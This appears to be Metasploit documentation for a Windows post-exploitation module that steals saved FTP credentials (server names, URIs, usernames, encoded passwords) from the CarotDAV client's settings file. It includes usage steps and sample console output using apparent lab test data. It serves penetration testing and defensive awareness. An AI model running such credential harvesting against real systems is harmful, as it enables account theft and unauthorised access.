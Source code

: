 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the CarotDAV ftp Client.

The CarotDAV FTP Client is avaialble from (https://rei.to/carotdav_en.html).

This module extracts information from the Setting file in the "AppData\Roaming\Rei Software\CarotDAV" directory.

This module extracts server information such as connection name, target URI, username and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/carotdav_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### CarotDAV FTP v1.16.3 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Carotdav's Setting file found
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103946_default_10.0.0.2_CarotDAVSetting._341142.xml

[+] <Name>TheTestBed</Name>
[+] <Name>Aperture Testing Laboratories</Name>
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[+] <UserName>TestBed\TheTester</UserName>
[+] <UserName>TestBed\TheBackupTester</UserName>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103947_default_10.0.0.2_EXTRACTIONSSetti_673514.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### CarotDAV FTP v1.16.3 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf post(windows/gather/credentials/carotdav_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Carotdav's base folder not found in users's user directory

[*] Starting Packrat...
[*] Carotdav's base folder found
[*] Found the folder containing specified artifact for Setting.
[*] Carotdav's Setting file found
[*] Processing C:\Users\test\AppData\Roaming\Rei Software\CarotDAV
[*] Downloading C:\Users\test\AppData\Roaming\Rei Software\CarotDAV\Setting.xml
[*] Carotdav Setting.xml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_CarotDAVSetting._292914.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>TheTestBed</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Name>Aperture Testing Laboratories</Name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.2/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <TargetUri>ftp://10.0.0.3/</TargetUri>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <UserName>TestBed\TheBackupTester</UserName>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <Password>dABpAGEAcwBwAGIAaQBxAGUAMgByAA==</Password>
[+] File with data saved:  /home/kali/.msf4/loot/20240508103903_default_10.0.0.2_EXTRACTIONSSetti_754664.xml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
